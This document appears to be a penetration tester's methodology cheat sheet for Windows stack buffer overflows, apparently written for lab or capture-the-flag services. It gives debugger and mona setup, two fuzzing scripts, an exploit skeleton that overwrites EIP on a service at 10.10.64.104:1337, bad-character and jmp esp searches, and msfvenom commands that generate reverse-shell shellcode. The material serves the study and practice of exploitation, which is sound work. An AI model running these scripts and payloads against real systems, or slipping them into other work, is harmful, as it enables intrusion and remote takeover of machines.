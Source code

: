 # My methodology

## Setup

### Immunity Debugger

Always run Immunity Debugger as Administrator if you can.

There are generally two ways to use Immunity Debugger to debug an application:

1. Using `File -> Attach` to attack the debugger to the running process.
2. Or by opening Immunity Debugger, and then using `File -> Open` to run the application.

When attaching to an application or opening an application in Immunity Debugger, the application will be paused. Click the "Run" button or press F9.

### Mona Setup

Mona is a powerful plugin for Immunity Debugger that makes exploiting buffer overflows much easier. Download: [:download:\`mona.py &lt;../\_static/files/mona.py&gt;\`](https://github.com/Tib3rius/Pentest-Cheatsheets/blob/master/exploits/buffer-overflows.rst#id1)The latest version can be downloaded here: [https://github.com/corelan/mona](https://github.com/corelan/mona)The manual can be found here: [https://www.corelan.be/index.php/2011/07/14/mona-py-the-manual/](https://www.corelan.be/index.php/2011/07/14/mona-py-the-manual/)

Copy the mona.py file into the PyCommands directory of Immunity Debugger \(usually located at C:\Program Files\Immunity Inc\Immunity Debugger\PyCommands\).

In Immunity Debugger, type the following to set a working directory for mona.

```bash
!mona config -set workingfolder c:\mona\%p
```

## Spiking/Fuzzing

### Raw sockets

The following Python script can be modified and used to fuzz remote entry points to an application. It will send increasingly long buffer strings in the hope that one eventually crashes the application.

```python
#!/usr/bin/env python3
import socket, time, sys

ip = "127.0.0.1"
port = 9999
timeout = 2
buffer_step = 100
buffer_size_max = 3000

buffer = ""

for i in range(0,buffer_size_max, buffer_step):
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(timeout)
        connect = s.connect((ip, port))
        s.recv(1024)
        s.send("HTER "+buffer[:i]+"\r\n")
        s.recv(1024)
        s.close()
    except:
        print("Could not connect to " + ip + ":" + str(port))
        sys.exit(0)
    time.sleep(1)
```

Check that the EIP register has been overwritten by A's \(\x41\). Make a note of any other registers that have either been overwritten, or are pointing to space in memory which has been overwritten.

### Boofuzz

```python
#!/usr/bin/env python3
from boofuzz import *

RHOST = "127.0.0.1"
RPORT = 9999

s = Session(target=Target(connection=SocketConnection(RHOST,RPORT,proto="tcp")))

s_initialize("FUZZER")
s_string("change_me", fuzzable=False)
s_delim(" ", fuzzable=False)
s_string("fuzzme")

s.connect(s_get("FUZZER"))
s.fuzz()
```

## Finding and controlling EIP

```python
#!/usr/bin/env python3
import socket

ip = "10.10.64.104"
port = 1337

offset = 1978

buf  = b""
buf += b"OVERFLOW1 " # prefix
buf += b"1" * offset # overflow
buf += b"2222" # return
buf += b"\x90"*16 # padding
buf += b"" # payload
buf += b"" # postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
    s.connect((ip, port))
    print("Sending buffer...")
    s.send(buf + b"\r\n")
    print("Done!")
except:
    print("Could not connect.")
```

## Finding bad characters

`!mona bytearray -b "\x00"`

```python
#!/usr/bin/env python3
for x in range(1, 256):
    print("\\x" + "{:02x}".format(x), end='')
print()
```

`!mona compare -f .\bytearray.bin -a <address>`

## Finding the right module

You can list modules with `!mona modules` command, and find unsecure module.

Then try to find position of `jmp esp` instruction\(`FF E4`\)

```bash
!mona jmp -r esp
!mona jmp -r esp -cpb "\x00"
!mona find -s "\xff\xe4" -m <unsecure_module>
```

## Generating shellcode

```bash
msfvenom -p <payload> LHOST=<lhost> LPORT=<lport> EXITFUNC=thread -f c -a <architecture> -b <bad_bytes>

msfvenom -p windows/shell_reverse_tcp LHOST= LPORT= EXITFUNC=thread -b "\x00" -f py

# example
msfvenom -p windows/shell_reverse_tcp LHOST=127.0.0.1 LPORT=8990 EXITFUNC=thread -f c -a x86 -b "\x00"
```

## Root

